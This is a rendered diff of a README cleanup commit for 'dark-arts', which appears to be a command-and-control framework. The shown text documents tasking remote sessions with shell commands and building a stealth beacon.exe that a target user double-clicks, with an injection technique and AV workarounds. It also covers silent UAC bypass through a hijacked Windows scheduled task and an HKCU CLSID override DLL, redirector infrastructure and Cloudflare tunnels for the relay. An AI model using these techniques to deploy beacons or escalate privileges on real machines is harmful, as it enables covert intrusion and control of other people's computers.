

Before and after one commit to kelvinweijun/dark-arts, a Markdown page: README.md, 3 parts joined by grey strips. Shown at 92% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
docs: README cleanup - remove duplicated walkthrough/reference content, stale Cloudflare tunnel and Defender caveat text

````diff
--- a/README.md
+++ b/README.md
@@ -262,14 +262,7 @@ dark-arts> sessions          # the laptop's sid shows a recent last-seen
 dark-arts> uactest <sid>
 ```
 
-First result waits for the stock Windows `UnifiedConsentSyncTask` daily fire (12:00±2h, or at wake-up) that bootstraps the channel; the console prints the on-laptop verification checklist if it times out. After the first fire, every `uac` command returns in seconds, fully silent:
-
-```
-dark-arts> uactest <sid>                 # whoami /groups elevated
-dark-arts> task <sid> uac cmd=net user
-```
-
-One-time-prompt fallback: `task <sid> uac method=schtasks cmd=whoami /groups`.
+First result waits for the stock Windows `UnifiedConsentSyncTask` daily fire (12:00±2h, or at wake-up) that bootstraps the channel; the console prints the on-laptop verification checklist if it times out. After the first fire, every `uac` command returns in seconds, fully silent. Mechanism, fallbacks (`method=schtasks` for Win10 or when speed matters) and caveats: see the "Silent elevation (`uac`)" section under "Deploying to a Windows laptop".
 
 ### 8. Routine operation
 
@@ -284,11 +277,7 @@ dark-arts> kill <sid>
 
 ### 9. Teardown
 
-```powershell
-lab\stop-lab.cmd        # or: docker compose -f lab/docker-compose.yml down -v
-```
-
-To un-arm the daily channel on a laptop: delete the HKCU CLSID override key, `%TEMP%\darts_ucd.dll`, `%TEMP%\darts-uac-work.txt`, and `schtasks /Delete /TN \DarkArts-uac /F`.
+`lab\stop-lab.cmd` (or `docker compose -f lab/docker-compose.yml down -v` — see [Teardown](#teardown)). To un-arm the daily channel on a laptop, see the teardown note in the "Silent elevation (`uac`)" section.
 
 ## Deploying to a Windows laptop
 
@@ -316,17 +305,9 @@ The script prints the generated seed (keep it to redeploy the same identity late
 
 This builds a **self-contained `beacon.exe`** (stealth recipe) with the seed, server public key, edge candidate list, 15 s sleep and a `beacon.log` next to it baked in via `-ldflags -X`. The target user just copies the single exe and double-clicks it — no environment variables, no launcher script. `DARKARTS_*` variables still take precedence when set (a comma-separated `DARKARTS_EDGE` overrides the baked list). The script prints the identity and **registers the session itself** (`POST /api/v1/sessions` is idempotent, so re-running just re-touches it). Results appear under the new sid. Use `-NoInject` to build a beacon without the inject TTP if the target's AV objects. Generate identities with `go run ./cmd/genid <seed-hex-64>`.
 
-### Operate everything from the console
+### Operate from the console
 
-`lab\console.cmd` on the lab host sets the right `DARKARTS_SERVER_URL`/`DARKARTS_API_KEY`; then:
-
-```
-dark-arts> package              # build beacon.exe + register the session (fresh identity, auto LAN edge)
-dark-arts> sessions             # confirm the new sid
-dark-arts> task <sid> shell cmd=whoami
-dark-arts> results              # watch for the base64 result
-dark-arts> kill <sid>
-```
+See the command reference in [Quick start](#5-operate-with-the-console) and the walkthrough above; `lab\console.cmd` sets the right `DARKARTS_SERVER_URL`/`DARKARTS_API_KEY`.
 
 ### Silent elevation (`uac`) — the zero-prompt daily channel
 
@@ -394,17 +375,9 @@ Debian 13 VM, external IP `<vps-ip>` in testing. Two gotchas beyond the generic
    ```
    then re-run `dark-arts> redirector -Reverse darkarts-lab@<vps-ip>`. The whole `redirector -Reverse` run is idempotent — re-running just re-installs, re-verifies and rebuilds. End-to-end verification in testing was `healthz 200` pulled from the VPS through the running tunnel.
 
-### The Cloudflare quick tunnel (stopgap only)
+### The Cloudflare quick tunnel (stopgap, deprecated)
 
-The lab also ships a `tunnel` container that exposes the relay on a public URL with no account:
-
-```sh
-docker compose -f lab/docker-compose.yml up -d tunnel
-docker logs darkarts-tunnel | grep trycloudflare   # -> https://<random>.trycloudflare.com
-curl https://<random>.trycloudflare.com/healthz     # ok
-```
-
-The URL is **ephemeral**: it changes whenever the `tunnel` container restarts and account-less tunnels get throttled by Cloudflare (observed dead after ~13 h of QUIC timeouts; a restart did not recover it). Use the VPS redirector edge for anything real.
+The lab ships a `tunnel` container exposing the relay on an account-less public URL (`docker logs darkarts-tunnel | grep trycloudflare`), but the URL rotates on restart and the tunnels get throttled (observed dead after ~13 h). Use the VPS redirector for anything real.
 
 ## Advanced evasion features
 
````
Also changed, not shown: other parts of README.md (+5 -6 lines).
